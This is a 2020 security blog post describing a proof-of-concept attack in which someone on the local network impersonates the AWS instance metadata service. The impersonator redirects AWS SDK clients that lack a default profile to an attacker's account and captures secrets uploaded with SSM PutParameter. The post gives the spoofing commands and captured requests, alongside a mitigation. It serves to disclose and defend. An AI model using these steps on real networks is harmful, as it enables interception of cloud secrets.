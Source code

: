 ```yaml
---
layout: post
title: Attacking the AWS SDK

# Abusing the SDK is wrong! Don't do it.
redirect_from:
  - /2020/10/17/abusing-the-aws-sdk.html
---
```


{{ page.title }}
================

<p class="meta">17 October 2020 - Somewhere</p>
A bit ago I noticed an SYN open connection from what was most likely the AWS SDK trying to connect to the IMDS service. I must have been a bit bored at the time and decided to look into how this could be abused in various scenarios. After some messing around I came up with a fairly simple PoC that allows an attacker on the local network under specific conditions to gain plain text secrets uploaded using SSM parameter store.

My takeaway from looking into this further is if you use multiple named profiles in your config/credentials file it's a good idea to either put dummy creds in the default profile and/or make sure AWS_EC2_METADATA_DISABLED=true is set in your shell environment. In general, the issue sounds worse than it is, but given the right conditions, enough patience by the attacker, or a bit of luck the potential for damage is there.

This issue ended up affecting me by default since I've gotten in the habit of never setting a default profile to avoid accidentally connecting to the wrong account. It seems I'm not the only person that does this either, found a few people suggesting the same thing.

Note: I sent off emails to see if we can get these posts updated with a recommendation to set `AWS_EC2_METADATA_DISABLED=true` in the environment, granted I really should have done it earlier so if they aren't updated by the time you read this that's probably my fault. On the StackOverflow one if anyone minds adding a comment about this there that would be much appreciated.

Anyway, I just wanted to include these links to show that it’s not all that uncommon to set your configuration up this way. If it wasn’t for this IMDS gotcha this would be in my opinion a smart thing to do. Momentary lapses in brain function tend to happen when you have to deal with a handful of accounts.

* [multiple-aws-profiles](https://mads-hartmann.com/2017/04/27/multiple-aws-profiles.html#dont-have-a-default-profile)
* [short-how2tips-aws-using-multiple-profiles](https://knplabs.com/en/blog/short-how2tips-aws-using-multiple-profiles#aws-profiles)
* [stackoverflow comment](https://stackoverflow.com/a/37866692)

When you perform any action the AWS SDK makes a lookup to the IMDS server if you didn't specify a profile and it can't find the credentials locally. Usually, this tends to result in a long delay before the API call fails.

What is happening here depends on your local routing configuration for the link-local address range (169.254.0.0/16). For example on my MacBook Pro running 10.15 I have the following in my route table.


```
169.254            link#6             UCS            en0      !
224.0.0/4          link#6             UmCS           en0      !
224.0.0.251        XX:XX:XX:XX:XX:XX  UHmLWI         en0       
255.255.255.255/32 link#6             UCS            en0
```

This means when I am running `aws s3 ls` with no default profile set we can see that the OS attempts to look for the IMDS server on the local network.


```
% tcpdump -i any host 169.254.169.254
tcpdump: data link type PKTAP
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on any, link-type PKTAP (Apple DLT_PKTAP), capture size 262144 bytes
23:29:36.631710 ARP, Request who-has 169.254.169.254 tell 10.0.1.105, length 28
23:29:37.635852 ARP, Request who-has 169.254.169.254 tell 10.0.1.105, length 28
```


Eventually, the AWS SDK will timeout and we'll get this familiar error. 

```
Unable to locate credentials. You can configure credentials by running "aws configure".
```

For fun, you can also search through GitHub Issues [relating to this error](https://github.com/search?q=%27Unable+to+locate+credentials.+You+can+configure+credentials+by+running+%22aws+configure%22.%27&type=issues).

Thinking about this from an attacker's viewpoint who already has access to the local subnet we can do a few things by simply claiming that IP as our own. The simplest is scraping the AWS SDK version of the user's on the local network. Worth noting the error on the victim's side remains the same as above.


```
(h@x0r) % ifconfig lo0 add 169.254.169.254
(h@x0r) % nc -lk 169.254.169.254 80

## Meanwhile we wait for someone to accidentally trigger an IMDS lookup.

PUT /latest/api/token HTTP/1.1
Host: 169.254.169.254
Accept-Encoding: identity
x-aws-ec2-metadata-token-ttl-seconds: 21600
User-Agent: aws-cli/2.0.50 Python/3.8.5 Darwin/19.6.0 source/x86_64
Content-Length: 0

GET /latest/meta-data/iam/security-credentials/ HTTP/1.1
Host: 169.254.169.254
Accept-Encoding: identity
User-Agent: aws-cli/2.0.50 Python/3.8.5 Darwin/19.6.0 source/x86_64
```

Taking this a step further we can actually serve the victim another set of credentials of our choosing which will cause the SDK to connect to an account we control. For this to be useful to us the API called by the victim must use relative naming schemes for parameters (i.e. no ARNs) as well as upload sensitive info. One that fits this description is the SSM parameter PutParameter call.


Testing this out is fairly simple. Here we're doing the same thing as before but using aws-vault's server feature to feedback credentials to the victim. Typically aws-vault will only bind on localhost but we can force it to skip this step by adding the 169.254.169.254 IP beforehand.


```
(h@x0r) % ifconfig lo0 add 169.254.169.254
(h@x0r) % aws-vault exec -s attackers-account
```


If the victim runs STS GetCallerIdentity and happens to trigger an IMDS lookup they will be connected to the attacker's account. Uploading a secret using SSM PutParameter at this point will end up pushing it to the wrong account, allowing it to be viewed by the attacker in plaintext.

This would be a not-so-great situation, but to reiterate, getting to this point requires both the IMDS lookup to be triggered when it shouldn't have, as well as the victim running an API call that is susceptible to this. Unless can determine through some other means what API call a client is going to make and when they will most likely notice something is not right, the tool they are using will fail or behave strangely.

Personally, though I think this could use more eyes looking into how feasible this attack might be. For example, it may be worth looking into what would happen if ARNs are constructed from the STS GetCallerIdentity call, something that is fairly common when running terraform. If there are any situations where an attacker might have access to the running process list or tracing privileges to the running app then this may be more effective as well.

One last thing to note is for OSs that send 169.254.169.254 to the default route the same situation comes up further upstream, allowing an attacker in a privileged position on the network to do the same thing across multiple subnets. Link-local addresses in theory should be filtered, so *hopefully* outside of any network misconfigurations, this wouldn't come up.

If you have any thoughts on how this might more effectively be abused I encourage you to reach out to either me (me@ryanjarv.sh) or [AWS security](https://aws.amazon.com/security/vulnerability-reporting/).

